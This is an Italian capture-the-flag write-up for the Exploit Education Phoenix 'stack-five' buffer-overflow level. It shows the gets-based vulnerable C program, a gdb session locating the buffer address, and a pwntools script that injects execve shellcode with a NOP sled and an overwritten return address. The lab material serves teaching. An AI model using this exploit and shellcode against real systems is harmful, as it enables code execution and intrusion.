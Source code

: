 ### Descrizione del Codice

Il programma `stack_five.c` presenta una vulnerabilità di overflow del buffer che può essere sfruttata per eseguire codice arbitrario, noto come "shellcode".

### Funzionamento del Programma

1. Il programma legge un input dall'utente utilizzando la funzione `gets` e lo memorizza in `buffer`.
2. La funzione `gets` non controlla la lunghezza dell'input, il che può causare un overflow del buffer.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `gets` senza controllare la lunghezza dell'input, il che può causare un overflow del buffer. Questo può essere sfruttato per inserire una shellcode nel buffer e reindirizzare l'esecuzione del codice a questa shellcode.

### Exploit

L'exploit sfrutta l'overflow del buffer per inserire una shellcode nel buffer e reindirizzare l'esecuzione del codice a questa shellcode.

### Esempio di Exploit

Il seguente esempio mostra come sfruttare la vulnerabilità:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}

Qui non abbiamo alcuna funzione a cui saltare, ma abbiamo un buffer abbastanza grande da contenere una shellcode.

L'idea è di inserire la nostra shellcode nel buffer e restituire l'esecuzione ad essa.

Quindi dobbiamo inserire: (shellcode + riempimento per riempire il buffer + 8 byte per RBP + RIP con l'indirizzo del buffer).

Quando si lavora con la shellcode, è una buona idea disattivare alcune variabili d'ambiente che gdb aggiunge per saltare all'indirizzo corretto.

$ gdb -q /opt/phoenix/amd64/stack-five
Reading symbols from /opt/phoenix/amd64/stack-five...(no debugging symbols found)...done.

gef➤  unset env LINES
gef➤  unset env COLUMNS
gef➤  disassemble start_level 
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:	push   rbp
   0x000000000040058e <+1>:	mov    rbp,rsp
   0x0000000000400591 <+4>:	add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:	lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:	nop
   0x00000000004005a2 <+21>:	leave  
   0x00000000004005a3 <+22>:	ret    

La dimensione del buffer è 0x80 = 128 byte.

Ora mettiamo un breakpoint alla funzione gets per ottenere l'indirizzo del buffer.

gef➤  b *0x000000000040059c
Breakpoint 1 at 0x40059c

gef➤  r
Starting program: /opt/phoenix/amd64/stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x000000000040059c in start_level ()

gef➤  print $rbp-0x80
$1 = (void *) 0x7fffffffe5d0

L'indirizzo del buffer è 0x7fffffffe5d0.

Ora abbiamo tutti i pezzi per scrivere l'exploit.

Soluzione:
# solve.py

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

buff = ""
buff += '\x90'*30  # NOP Sled
buff += shellcode  # shellcode
buff += 'A'* (128 - len(buff))  # riempimento
buff += 'BBBBBBBB'  # valore RBP
buff += p64(0x7fffffffe5d0)  # valore RIP (indirizzo del buffer)

print(buff)

Eseguiamo:

$ (python solve.py; cat) | /opt/phoenix/amd64/stack-five